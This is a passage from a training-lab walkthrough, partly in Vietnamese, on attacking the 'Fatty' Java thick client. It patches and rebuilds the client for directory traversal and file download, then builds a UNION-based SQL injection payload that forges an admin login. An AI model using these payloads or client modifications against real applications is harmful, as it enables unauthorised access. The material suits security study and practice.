    return "Successfully saved the file to " + desktopPath;
}
```


Tiếp theo biên dịch lại file

```powershell
PS C:\Apps> javac -cp fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\client\methods\Invoker.java
```


Di chuyển `.class` đến vị trí tương ứng

```powershell
PS C:\Apps> mv -Force .\fatty-client-new.jar.src\htb\fatty\client\methods\*.class raw\htb\fatty\client\methods\

PS C:\Apps> cd raw
PS C:\Apps\raw> jar -cmf META-INF\MANIFEST.MF traverse-and-download.jar .
```


Sau khi duyệt đến `config`


Download và nhận file


Decompiling the `fatty-server.jar` using JD-GUI reveals the file `htb/fatty/server/database/FattyDbSession.class` that contains a `checkLogin()` function that handles the login functionality. This function retrieves user details based on the provided username. It then compares the retrieved password with the provided password.

```java
public User checkLogin(User user) throws LoginException {
    <SNIP>
      rs = stmt.executeQuery("SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "'");
      <SNIP>
        if (newUser.getPassword().equalsIgnoreCase(user.getPassword()))
          return newUser; 
        throw new LoginException("Wrong Password!");
      <SNIP>
           this.logger.logError("[-] Failure with SQL query: ==> SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "' <==");
      this.logger.logError("[-] Exception was: '" + e.getMessage() + "'");
      return null;
```

Let's check how the client application sends credentials to the server. The login button creates the new object `ClientGuiTest.this.user` for the `User` class. It then calls the `setUsername()` and `setPassword()` functions with the respective username and password values. The values that are returned from these functions are then sent to the server.


Let's check the `setUsername()` and `setPassword()` functions from `htb/fatty/shared/resources/user.java`.

```java
public void setUsername(String username) {
    this.username = username;
  }
  
  public void setPassword(String password) {
    String hashString = this.username + password + "clarabibimakeseverythingsecure";
    MessageDigest digest = null;
    try {
      digest = MessageDigest.getInstance("SHA-256");
    } catch (NoSuchAlgorithmException e) {
      e.printStackTrace();
    } 
    byte[] hash = digest.digest(hashString.getBytes(StandardCharsets.UTF_8));
    this.password = DatatypeConverter.printHexBinary(hash);
  }
```

The username is accepted without modification, but the password is changed to the format below.

```java
sha256(username+password+"clarabibimakeseverythingsecure")
```

We also notice that the username isn't sanitized and is directly used in the SQL query, making it vulnerable to SQL injection.

```java
rs = stmt.executeQuery("SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "'");
```

The `checkLogin` function in `htb/fatty/server/database/FattyDbSession.class` writes the SQL exception to a log file.

```java
<SNIP>
    this.logger.logError("[-] Failure with SQL query: ==> SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "' <==");
      this.logger.logError("[-] Exception was: '" + e.getMessage() + "'");
<SNIP>
```

Login into the application using the username `qtc'` to validate the SQL injection vulnerability reveals a syntax error. To see the error, we need to edit the code in the `fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java` file as follows.

```java
ClientGuiTest.this.currentFolder = "../logs";
  try {
    response = ClientGuiTest.this.invoker.showFiles("../logs");
```

Listing the content of the `error-log.txt` file reveals the following message.


This confirms that the username field is vulnerable to SQL Injection. However, login attempts using payloads such as `' or '1'='1` in both fields fail. Assuming that the username in the login form is `' or '1'='1`, the server will process the username as below.

```sql
SELECT id,username,email,password,role FROM users WHERE username='' or '1'='1'
```

The above query succeeds and returns the first record in the database. The server then creates a new user object with the obtained results.

```java
<SNIP>
if (rs.next()) {
        int id = rs.getInt("id");
        String username = rs.getString("username");
        String email = rs.getString("email");
        String password = rs.getString("password");
        String role = rs.getString("role");
        newUser = new User(id, username, password, email, Role.getRoleByName(role), false);
<SNIP>
```

It then compares the newly created user password with the user-supplied password.

```java
<SNIP>
if (newUser.getPassword().equalsIgnoreCase(user.getPassword()))
    return newUser;
throw new LoginException("Wrong Password!");
<SNIP>
```

Then, the following value is produced by `newUser.getPassword()` function.

```java
sha256("qtc"+"clarabibi"+"clarabibimakeseverythingsecure") = 5a67ea356b858a2318017f948ba505fd867ae151d6623ec32be86e9c688bf046
```

The user-supplied password hash `user.getPassword()` is calculated as follows.

```java
sha256("' or '1'='1" + "' or '1'='1" + "clarabibimakeseverythingsecure") = cc421e01342afabdd4857e7a1db61d43010951c7d5269e075a029f5d192ee1c8
```

Although the hash sent to the server by the client doesn't match the one in the database, and the password comparison fails, the SQL injection is still possible using `UNION` queries. Let's consider the following example.

```sql
MariaDB [userdb]> select * from users where username='john';
+----------+-------------+
| username | password    |
+----------+-------------+
| john     | password123 |
+----------+-------------+
```

It is possible to create fake entries using the `SELECT` operator. Let's input an invalid username to create a new user entry.

```sql
MariaDB [userdb]> select * from users where username='test' union select 'admin', 'welcome123';
+----------+-------------+
| username | password    |
+----------+-------------+
| admin    | welcome123  |
+----------+-------------+
```

Similarly, the injection in the `username` field can be leveraged to create a fake user entry.

```java
test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin
```

This way, the password, and the assigned role can be controlled. The following snippet of code sends the plaintext password entered in the form. Let's modify the code in `htb/fatty/shared/resources/User.java` to submit the password as it is from the client application.

```java
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
```


```java
public void setPassword(String password) {
    this.password = password;
  }
```


We can now rebuild the JAR file and attempt to log in using the payload `abc' UNION SELECT 1,'abc','a@b.com','abc','admin` in the `username` field and the random text `abc` in the `password` field.

```
abc' UNION SELECT 1,'abc','a@b.com','abc','admin
```

`password: abc`


The server will eventually process the following query.

```sql
select id,username,email,password,role from users where username='abc' UNION SELECT 1,'abc','a@b.com','abc','admin'
```

The first select query fails, while the second returns valid user results with the role `admin` and the password `abc`. The password sent to the server is also `abc`, which results in a successful password comparison, and the application allows us to log in as the user `admin`.


